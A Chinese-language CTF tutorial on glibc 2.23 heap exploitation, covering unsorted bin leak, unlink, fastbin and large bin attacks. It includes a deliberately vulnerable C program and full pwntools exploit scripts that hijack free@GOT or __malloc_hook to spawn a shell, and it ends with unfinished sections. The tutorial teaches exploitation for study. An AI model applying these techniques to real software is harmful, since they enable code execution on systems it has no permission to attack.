








# pwn堆篇-堆块常见的攻击方式


> [!NOTE]
>
> 注意这里的所有实例靶场都可以去联系qq:1076696115，并且这里的攻击手法需要明白堆块的源码和堆结构，并且这个文件是不定期更新

## unsorted bin leak

在我们学pwn的时候会发现libc地址在我们的攻击中是一个举足轻重的一个地位，因此在堆块中也是如此因此我们这里要先从在堆块中泄露libc的方式来进行一个书写，这里我们就要引入unsorted bin模块的一个机制了，

在我们观察过unsorted bin的源码的时候我们会发现整个unsorted bin其实就是一个双向链表，同时在unsorted bin中也有着一个我们必看的一个节点就是main_arena结构体，也就是我们下面代码的这个结构体因此我们要查看一下这个结构体。



在我们查看过他的结构体数据后就可以明白着个结构体是一个malloc-state类型的一个全局变量，并且是ptmalloc管理分区的唯一实例。因此我们可以在着里知道arena指向的地址位置就是一个libc的地址，那么我们就有了一个目标我们是否可以释放一个满足unsorted bin大小的堆块来进入的这里bin中来泄露这个libc答案是可以的因此我们的攻击手法就是通过攻击unsorted bin

并且在这里我们同样还可以明白一个定值就是main_arena和malloc_hook的一个关系

```c
main_arena_offset=elf("libc.so.6").sysmbols['__malloc_hook']-0x10
```

这里我们使用的实例是使用uaf的方式进行一个攻击后面会详细讲解uaf漏洞的原理这里就直接进行一个使用了

先跟上文件源码可以自行编译，这里就要注意自己使用libc了不同版本的libc他会有这个不同的验证因此我们这里使用2.23的版本

```c
#include<stdlib.h>
#include <stdio.h>
#include <unistd.h>

char *chunk_list[0x100];

void menu() {
    puts("1. add chunk");
    puts("2. delete chunk");
    puts("3. edit chunk");
    puts("4. show chunk");
    puts("5. exit");
    puts("choice:");
}

int get_num() {
    char buf[0x10];
    read(0, buf, sizeof(buf));
    return atoi(buf);
}

void add_chunk() {
    puts("index:");
    int index = get_num();
    puts("size:");
    int size = get_num();
    chunk_list[index] = malloc(size);
}

void delete_chunk() {
    puts("index:");
    int index = get_num();
    free(chunk_list[index]);
}

void edit_chunk() {
    puts("index:");
    int index = get_num();
    puts("length:");
    int length = get_num();
    puts("content:");
    read(0, chunk_list[index], length);
}

void show_chunk() {
    puts("index:");
    int index = get_num();
    puts(chunk_list[index]);
}

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    while (1) {
        menu();
        switch (get_num()) {
            case 1:
                add_chunk();
                break;
            case 2:
                delete_chunk();
                break;
            case 3:
                edit_chunk();
                break;
            case 4:
                show_chunk();
                break;
            case 5:
                exit(0);
            default:
                puts("invalid choice.");
        }
    }
}

```




效果图

```py
from pwn import *

elf = ELF("./pwn")
libc = ELF("./libc-2.23.so")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path])


def add_chunk(index, size):
    p.sendafter("choice:", "1")
    p.sendafter("index:", str(index))
    p.sendafter("size:", str(size))


def delete_chunk(index):
    p.sendafter("choice:", "2")
    p.sendafter("index:", str(index))


def edit_chunk(index, content):
    p.sendafter("choice:", "3")
    p.sendafter("index:", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)


def show_chunk(index):
    p.sendafter("choice:", "4")
    p.sendafter("index:", str(index))
    p.recvline()
    return p.recvline()

add_chunk(0, 0x80)
add_chunk(3, 0x20)
add_chunk(1, 0x80)
add_chunk(4, 0x20)
add_chunk(2, 0x80)
delete_chunk(0)
delete_chunk(1)
add_chunk(0, 0x80)
# show_chunk(0)
gdb.attach(p)
libc.address = u64(show_chunk(0)[:8].strip().ljust(8, b"\x00")) - 0x39bb78
info("libc base: " + hex(libc.address))
edit_chunk(0, 'a' * 8)
# show_chunk(0)
heap_base = u64(show_chunk(0)[8:14].strip().ljust(8, b"\x00")) & ~0xFFF
info("heap base: " + hex(heap_base))


p.interactive()

```

其实这个方法也是可以泄露heap的地址，可以自己调试一下


## unlink

unlink这个操着就是对相邻的堆块进行一个合并的一个函数但是在我们堆块的利用中这个同样也是一个高危害的一个地方

这里就要引入一个新的概念就是堆块的指针数组，这个概念就是在我们创建堆块的时候这个数组就是记录我们创建的堆块的一个指针和地址，也就是说在这个数组中存放了我们创建数组的一个位置，那么我们如果通过合并的方式来把这个数组当成一个堆块申请出来那么我们是否可以控制我们对应的堆块指针来进行一个getshell

这里我们假设我们一个正确的指针数组



这个是一个正常的一个数组指针的一个状况那么如果我们可以在p1这个chunk的位置构造一个fake_chunk来伪装成一个可以合并的是的他会向p-0x18的位置写入一个任意地址写呢，所以我们的攻击手法就来了



实现这样的一个操作

就可以进行一个任意地址写了

因此这里我们就要绕过他的保护了

### 绕过

在 chunk1 伪造 fake chunk ，需要注意：  

1.他会检查fd-bk是否指向p，同理bk-fd也是否=p

```c
if (__builtin_expect(FD->bk != P || BK->fd != P, 0))
	malloc_printerr(check_action, "corrupted double-linked list", P, AV);
```

```tex
fakeFD -> bk == P1 <=> *(&fakeFD + 0x18) == P1 <=> *fakeFD == &P1-0x18
fakeBK -> fd == P1 <=> *(&fakeBK + 0x10) == P1 <=> *fakeBK == &P1-0x10
```

同时chunk2的prev_size要修改为fake chunk的size，并且fakechunk的大小要在smallbin的范围内

为了能使得 chunk2 与 fake chunk 合并，chunk2 的 size 的 PREV_INUSE 位 为 0 ，且 chunk2 的大小不能在 fast bin 范围  

释放 chunk2 ，向前合并 fake chunk ，使得 fake chunk 进行 unlink 操作，按如下代码执行，因此P1 = &P1 - 0x18 。  

FD->bk = BK <=> P1 = &P1 - 0x10 

BK->fd = FD <=> P1 = &P1 - 0x18  


因此我们的exp

```py
from pwn import *

elf = ELF("./pwn")
libc = ELF("./libc-2.23.so")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path])


def add_chunk(index, size):
    p.sendafter("choice:", "1")
    p.sendafter("index:", str(index))
    p.sendafter("size:", str(size))


def delete_chunk(index):
    p.sendafter("choice:", "2")
    p.sendafter("index:", str(index))


def edit_chunk(index, content):
    p.sendafter("choice:", "3")
    p.sendafter("index:", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)


def show_chunk(index):
    p.sendafter("choice:", "4")
    p.sendafter("index:", str(index))


add_chunk(3, 0x200)
add_chunk(4, 0x1f0)
add_chunk(5, 0x200)
edit_chunk(5, '/bin/sh\x00')
delete_chunk(3)
show_chunk(3)
p.recvline()
libc.address = u64(p.recvline()[0:6].ljust(8,b'\x00'))-0xb78
info("libc base: " + hex(libc.address))
add_chunk(3, 0x208)

payload = b''
payload += p64(0)
payload += p64(0)
payload += p64(elf.sym['chunk_list'])
payload += p64(elf.sym['chunk_list'] + 8)
payload = payload.ljust(0x200, b'\x00')
payload += p64(0x200)
payload += p8(0)
edit_chunk(3, payload)
# gdb.attach(p)
delete_chunk(4)

edit_chunk(3, p64(elf.got['free']))
edit_chunk(0, p64(libc.sym['system']))

# gdb.attach(p, "b free\nc")
# pause()
delete_chunk(5)
# edit_chunk()

# gdb.attach(p)

p.interactive()

```


## fast bin attack

这个攻击手法也是一个特别好用的一个攻击手法

这里我们先了解一下fast bin，这个bin块中我们在之前学习中可以知道这个bins容器时一个单项链表的一个操作那么当我们有着一个ufa漏洞的时候是否可以修改他的fd方向的指针呢，使得它可以指向我们需要的taget并且我们通过多次申请就可以把他申请出来。

这里我们有了思路那么我们就要看一下是否需要看一下在fastbin中申请数据的要给保护呢，这个时候就要打开我们的源代码

```c
#define SIZE_BITS (PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)

/* Get size, ignoring use bits */
#define chunksize(p) ((p)->size & ~(SIZE_BITS))
/* offset 2 to use otherwise unindexable first 2 bins */
#define fastbin_index(sz) \
	((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
		idx = fastbin_index(nb);
...
/* Get size, ignoring use bits */
#define chunksize(p) ((p)->size & ~(SIZE_BITS))
	if (__builtin_expect(fastbin_index(chunksize(victim)) != idx, 0)) {
		errstr = "malloc(): memory corruption (fast)";
		errout:
		malloc_printerr(check_action,errstr,chunk2mem(victim), av);
		return NULL;
		}
```

这里我们查看他的一个代码段发现他的绕过也非常简单就是fd方向指向的空间和我们释放的size的大小和fast bin对应的size要相同

因此这个也是比较要构造的这里我们要看一下__malloc_hook-0x23的地方这里我们找到一个0x7f的一个地方这个数据会当成一个size块使得我们可以直接绕过这个验证并且可以直接写入one_gegat



这个时候我们就可以直接吧malloc—hook直接申请出来使得他进行一个攻击这里我就直接附上代码exp

```python
from pwn import *

elf = ELF("./pwn")
libc = ELF("./libc-2.23.so")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path])


def add_chunk(index, size):
    p.sendafter("choice:", "1")
    p.sendafter("index:", str(index))
    p.sendafter("size:", str(size))


def delete_chunk(index):
    p.sendafter("choice:", "2")
    p.sendafter("index:", str(index))


def edit_chunk(index, content):
    p.sendafter("choice:", "3")
    p.sendafter("index:", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)


def show_chunk(index):
    p.sendafter("choice:", "4")
    p.sendafter("index:", str(index))


add_chunk(0, 0x200)
add_chunk(1, 0x20)
delete_chunk(0)
show_chunk(0)
libc.address = u64(p.recvuntil('\x7F')[-6:].ljust(8, '\x00')) - 0x39bb78
info("libc base: " + hex(libc.address))

add_chunk(0, 0x68)
delete_chunk(0)
edit_chunk(0, p64(libc.sym['__malloc_hook'] - 0x23))  # uaf
add_chunk(0, 0x68)

add_chunk(0, 0x68)

one_gadget = libc.address + [0x3f3e6, 0x3f43a, 0xd5c07][1]

gdb.attach(p, "b malloc\nc")
pause()

edit_chunk(0, 'a' * 0xb + p64(one_gadget) + p64(libc.sym['realloc'] + 7))
# edit_chunk(0, 'a' * 0x13 + p64(one_gadget))

delete_chunk(1)
delete_chunk(1)
# add_chunk(0, 0x1234)

p.interactive()

```


## unsorted bin attack

这里我们查看这个unsorted bin attack的一个方法和利用工具，但是这个方法和其他的不同的主要一个原因是他是一个思路而不是一个通用的攻击手法

因此我们聊一下这个攻击思路，它主要是的用法就是可以在一个堆块中写入另一个对快的要给数据因此它可以存在一个攻击思路同理下面学习的lagebin也是用了这个思路。

同样我们要看一下我们需要绕过的一些保护其实这个保护还是比较合理同样他也是比较好绕过的，这里我们查看一下他的保护



是这样的一个思路

### 绕过

检查size是否合法

```c
    if (__builtin_expect (chunksize_nomask (victim) <= 2 * SIZE_SZ, 0)
    	|| __builtin_expect (chunksize_nomask (victim)
    	> av->system_mem, 0))
    malloc_printerr ("malloc(): memory corruption");
```

同时我们要确定bk方向是一个可写的地址

```c
        /* remove from unsorted list */
        unsorted_chunks (av)->bk = bck;
        bck->fd = unsorted_chunks (av);
```


因此这个是一个思路，并没有一个具体的一个实例。

后续会介绍 House of Storm 利用手法，本质是在 unsorted bin attack 的基础上利用 large bin attack 进行两处任意地址写来伪造 fake chunk 的 size 和 bk ，从而将 fake chunk 申请出来。  

## large bin attack（house of fun）

large bin attack 是通过修改位于large bin 的chunk的指针，然后让其他的chunk进行large bin ，借助链表操作在目标地址写入一个堆地址

同时也是利用largebin 的bk和bk_nextsize

1.在large_bin中的排列顺序是**从大到小**的顺序，所以越大的chunk越靠前，越小的chunk越靠后，最小的chunk指向main_arena+一定偏移。也就是说，**非尾部的fd_nextsize指向的是更小的chunk，非头部的bk_nextsize指向的是更大的chunk**

2.在相同大小的情况下，按照free的时间进行排序

3.只有首堆块的fd_nextsize,bk_nextsize会指向其它大小的堆块，而其后的堆块中fd_nextsize,bk_nextsize无效，通常为0

说完了large_bin的概念和结构，那么我们现在该写如何实现large_bin_attack了。large_bin_attack也是有分水岭的，这个分水岭就是glibc-2.31，所以本文会分为两个板块，一个讲解2.23版本的large_bin_attack，另一个讲解2.31版本的large_bin_attack。这两种攻击方式我们都利用how2heap</a>项目团队编写的源码来进行讲解

### 低版本

#### 适用条件

存在**能够修改堆内容**的函数

从unsorted_bins里提取出来的堆块要**紧挨着我们伪造过的large_bins里的堆块**

#### 绕过

讲解低版本的攻击手法的原因主要就是他的效果会比高版本的更好

因此我们直接开始分析源代码和保护

```c
 if (in_smallbin_range (size)) {
                victim_index = smallbin_index (size);
                bck = bin_at (av, victim_index);
                fwd = bck->fd;
            } else {
                victim_index = largebin_index (size);
                bck = bin_at (av, victim_index);
                fwd = bck->fd;

                /* maintain large bins in sorted order */
                if (fwd != bck) {
                    /* Or with inuse bit to speed comparisons */
                    size |= PREV_INUSE;
                    /* if smaller than smallest, bypass loop below */
                    assert ((bck->bk->size & NON_MAIN_ARENA) == 0);
                    if ((unsigned long) (size) < (unsigned long) (bck->bk->size)) {
                        fwd = bck;
                        bck = bck->bk;

                        victim->fd_nextsize = fwd->fd;
                        victim->bk_nextsize = fwd->fd->bk_nextsize;
                        fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
                    } else {
                        assert ((fwd->size & NON_MAIN_ARENA) == 0);
                        while ((unsigned long) size < fwd->size) {
                            fwd = fwd->fd_nextsize;
                            assert ((fwd->size & NON_MAIN_ARENA) == 0);
                        }

                        if ((unsigned long) size == (unsigned long) fwd->size)
                            /* Always insert in the second position.  */
                            fwd = fwd->fd;
                        else {
                            victim->fd_nextsize = fwd;
                            victim->bk_nextsize = fwd->bk_nextsize;
                            fwd->bk_nextsize = victim;
                            victim->bk_nextsize->fd_nextsize = victim;
                        }
                        bck = fwd->bk;
                    }
                } else
                    victim->fd_nextsize = victim->bk_nextsize = victim;
            }

            mark_bin (av, victim_index);
            victim->bk = bck;
            victim->fd = fwd;
            fwd->bk = victim;
            bck->fd = victim;
```



#### how2heap源码进行一个动调

展示源代码

```c
//gcc -g -no-pie hollk.c -o hollk
#include <stdio.h>
#include <stdlib.h>

int main()
{

    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;

    fprintf(stderr, "stack_var1 (%p): %ld\n", &stack_var1, stack_var1);
    fprintf(stderr, "stack_var2 (%p): %ld\n\n", &stack_var2, stack_var2);

    unsigned long *p1 = malloc(0x320);
    malloc(0x20);
    unsigned long *p2 = malloc(0x400);
    malloc(0x20);
    unsigned long *p3 = malloc(0x400);
    malloc(0x20);

    free(p1);
    free(p2);

    void* p4 = malloc(0x90);

    free(p3);

    p2[-1] = 0x3f1;
    p2[0] = 0;
    p2[2] = 0;
    p2[1] = (unsigned long)(&stack_var1 - 2);
    p2[3] = (unsigned long)(&stack_var2 - 4);

    malloc(0x90);

    fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
    fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);

    return 0;
}
```

##### 核心代码掉过：

```c
for (;; )
    {
      int iters = 0;
      while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))//从第一个unsortedbin的bk开始遍历,FIFO原则
        {
          bck = victim->bk;
          if (__builtin_expect (chunksize_nomask (victim) <= 2 * SIZE_SZ, 0)
              || __builtin_expect (chunksize_nomask (victim)
                                   > av->system_mem, 0))
            malloc_printerr ("malloc(): memory corruption");
          size = chunksize (victim);
          /*
             If a small request, try to use last remainder if it is the
             only chunk in unsorted bin.  This helps promote locality for
             runs of consecutive small requests. This is the only
             exception to best-fit, and applies only when there is
             no exact fit for a small chunk.
           */
          if (in_smallbin_range (nb) &&
              bck == unsorted_chunks (av) &&
              victim == av->last_remainder &&
              (unsigned long) (size) > (unsigned long) (nb + MINSIZE))    //unsorted_bin的最后一个，并且该bin中的最后一个chunk的size大于我们申请的大小
            {
              /* split and reattach remainder */
              remainder_size = size - nb;
              remainder = chunk_at_offset (victim, nb);                    //将选中的chunk剥离出来，恢复unsortedbin
              unsorted_chunks (av)->bk = unsorted_chunks (av)->fd = remainder;
              av->last_remainder = remainder;
              remainder->bk = remainder->fd = unsorted_chunks (av);
              if (!in_smallbin_range (remainder_size))
                {
                  remainder->fd_nextsize = NULL;
                  remainder->bk_nextsize = NULL;
                }
              set_head (victim, nb | PREV_INUSE |
                        (av != &main_arena ? NON_MAIN_ARENA : 0));
              set_head (remainder, remainder_size | PREV_INUSE);
              set_foot (remainder, remainder_size);
              check_malloced_chunk (av, victim, nb);
              void *p = chunk2mem (victim);
              alloc_perturb (p, bytes);
              return p;
            }
          /* remove from unsorted list */
          if (__glibc_unlikely (bck->fd != victim))
            malloc_printerr ("malloc(): corrupted unsorted chunks 3");
          unsorted_chunks (av)->bk = bck;//将其从unsortedbin中取出来
          bck->fd = unsorted_chunks (av);//bck要保证地址的有效性
          /* Take now instead of binning if exact fit */
          if (size == nb)
            {
              set_inuse_bit_at_offset (victim, size);
              if (av != &main_arena)
                set_non_main_arena (victim);
#if USE_TCACHE
              /* Fill cache first, return to user only if cache fills.
                 We may return one of these chunks later.  */
              if (tcache_nb
                  && tcache->counts[tc_idx] < mp_.tcache_count)
                {
                  tcache_put (victim, tc_idx);
                  return_cached = 1;
                  continue;
                }
              else
                {
#endif
              check_malloced_chunk (av, victim, nb);
              void *p = chunk2mem (victim);
              alloc_perturb (p, bytes);
              return p;
#if USE_TCACHE
                }
#endif
            }
          /* place chunk in bin */
          /*把unsortedbin的chunk放入相应的bin中*/
          if (in_smallbin_range (size))
            {
              victim_index = smallbin_index (size);
              bck = bin_at (av, victim_index);
              fwd = bck->fd;
            }
          else//large bin
            {
              victim_index = largebin_index (size);
              bck = bin_at (av, victim_index);
              fwd = bck->fd;
              /* maintain large bins in sorted order */
              if (fwd != bck)
                {
                  /* Or with inuse bit to speed comparisons */
                  size |= PREV_INUSE;
                  /* if smaller than smallest, bypass loop below */
                  assert (chunk_main_arena (bck->bk));
                  /* 如果size<large bin中最后一个chunk即最小的chunk，就直接插到最后*/
                  if ((unsigned long) (size)
                      < (unsigned long) chunksize_nomask (bck->bk))
                    {
                      fwd = bck;
                      bck = bck->bk;
                      victim->fd_nextsize = fwd->fd;
                      victim->bk_nextsize = fwd->fd->bk_nextsize;
                      fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
                    }
                  else
                    {
                      assert (chunk_main_arena (fwd));
            // 否则正向遍历，fwd起初是large bin第一个chunk，也就是最大的chunk。
            // 直到满足size>=large bin chunk size
                      while ((unsigned long) size < chunksize_nomask (fwd))
                        {
                          fwd = fwd->fd_nextsize;//fd_nextsize指向比当前chunk小的下一个chunk
                          assert (chunk_main_arena (fwd));
                        }
                      if ((unsigned long) size
                          == (unsigned long) chunksize_nomask (fwd))
                        /* Always insert in the second position.  */
                        fwd = fwd->fd;
                      else// 插入
                        {
                            //解链操作，nextsize只有largebin才有
                          victim->fd_nextsize = fwd;
                          victim->bk_nextsize = fwd->bk_nextsize;
                          fwd->bk_nextsize = victim;
                          victim->bk_nextsize->fd_nextsize = victim;//fwd->bk_nextsize->fd_nextsize=victim
                        }
                      bck = fwd->bk;
                    }
                }
              else
                victim->fd_nextsize = victim->bk_nextsize = victim;
            }
          mark_bin (av, victim_index);
          //解链操作2,fd,bk
          victim->bk = bck;
          victim->fd = fwd;
          fwd->bk = victim;
          bck->fd = victim;
          //fwd->bk->fd=victim
```


核心代码部分

```c
while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))//从第一个unsortedbin的bk开始遍历
{
    bck = victim->bk;
    size = chunksize (victim);
    if (in_smallbin_range (nb) &&//<_int_malloc+627>
        bck == unsorted_chunks (av) &&
        victim == av->last_remainder &&
        (unsigned long) (size) > (unsigned long) (nb + MINSIZE))    //unsorted_bin的最后一个，并且该bin中的最后一个chunk的size大于我们申请的大小
    {remainder_size = size - nb;
     remainder = chunk_at_offset (victim, nb);...}//将选中的chunk剥离出来，恢复unsortedbin
    if (__glibc_unlikely (bck->fd != victim))
            malloc_printerr ("malloc(): corrupted unsorted chunks 3");
     unsorted_chunks (av)->bk = bck;    //largebin attack
    //注意这个地方，将unsortedbin的bk设置为victim->bk，如果我设置好了这个bk并且能绕过上面的检查,下次分配就能将target chunk分配出来
    if (size == nb)//size相同的情况同样正常分配
    if (in_smallbin_range (size))//放入smallbin
     {
        victim_index = smallbin_index (size);
        bck = bin_at (av, victim_index);
        fwd = bck->fd;
     }
     else//放入large bin
     {
         while ((unsigned long) size < chunksize_nomask (fwd))
         {
            fwd = fwd->fd_nextsize;//fd_nextsize指向比当前chunk小的下一个chunk
            assert (chunk_main_arena (fwd));
          }
          if ((unsigned long) size
                          == (unsigned long) chunksize_nomask (fwd))
                        /* Always insert in the second position.  */
             fwd = fwd->fd;
          else// 插入
          {
            //解链操作，nextsize只有largebin才有
            victim->fd_nextsize = fwd;
            victim->bk_nextsize = fwd->bk_nextsize;
            fwd->bk_nextsize = victim;
            victim->bk_nextsize->fd_nextsize = victim;//fwd->bk_nextsize->fd_nextsize=victim
           }
          bck = fwd->bk;
      }
   }
 else
     victim->fd_nextsize = victim->bk_nextsize = victim;
}
 mark_bin (av, victim_index);
//解链操作2,fd,bk
 victim->bk = bck;
 victim->fd = fwd;
 fwd->bk = victim;
 bck->fd = victim;
//fwd->bk->fd=victim
```


这里我们查看了这个源代码从源码中我们可以知道他大概干了上面东西



在整个工作过程主要的一个实现的模块就是在两个地址中写入两个堆地址，这个这个堆地址基本上是向fd方向和fd_nextsize中写入一个数据，而这个数据我们可以进行一个调用。

并且伪造一个一个堆块来进行一个攻击

这个gdb的调式我就不具体调试


### 高版本

## heap overlapping+off by null低版本

